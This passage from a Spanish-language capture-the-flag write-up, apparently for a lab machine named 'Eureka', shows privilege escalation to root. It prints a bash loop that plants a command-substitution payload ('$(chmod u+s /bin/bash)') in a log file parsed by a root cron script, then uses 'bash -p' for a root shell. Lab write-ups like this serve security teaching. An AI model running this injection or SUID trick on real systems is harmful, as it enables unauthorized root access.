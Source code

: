  y no funciono, por que? porque al tener un numero entra en el filtro y causa error, pero, al inyectar:

<img src="/images/writeup-eureka/Pasted image 20250709013832.png">

tenemos:

<img src="/images/writeup-eureka/Pasted image 20250709014024.png">

el script ha ejecutado el comando

aunque, si miramos el archivo:

<img src="/images/writeup-eureka/Pasted image 20250709014331.png">

tampoco podemos modificar como suid la bash:

<img src="/images/writeup-eureka/Pasted image 20250709014524.png">

<h3>Root</h3>

el error era que miranda ejecutaba el script, aunque hay una tarea programada, para que cada cierto tiempo fuera root quien ejecutara el script pero al ejecutarlo nosotros se hace como el usuario
si hacemos un bucle que constantemente elimine el .log e inyecte el log malicioso, solo nos quedaria esperar a que sea root (o la tarea cron) el que ejecute el log_analyse.sh

asi que en el directorio /tmp cree y ejecute:
```bash
#!/bin/bash

while true; do
    rm -f /var/www/web/user-management-service/log/application.log
    
    echo 'HTTP Status: x[$(chmod u+s /bin/bash)]' > /var/www/web/user-management-service/log/application.log
    sleep 10
done
```


esperamos un par de minutos y finalmente:
```
bash -p
```
<img src="/images/writeup-eureka/Pasted image 20250709130619.png">

------------------------------------------------------
\
nos vemos en la siguiente maquina! 

<h3>H4ck th3 W0rld</h3>

<img src="/images/devil.jpg" style="border-radius:200px; width:100px;">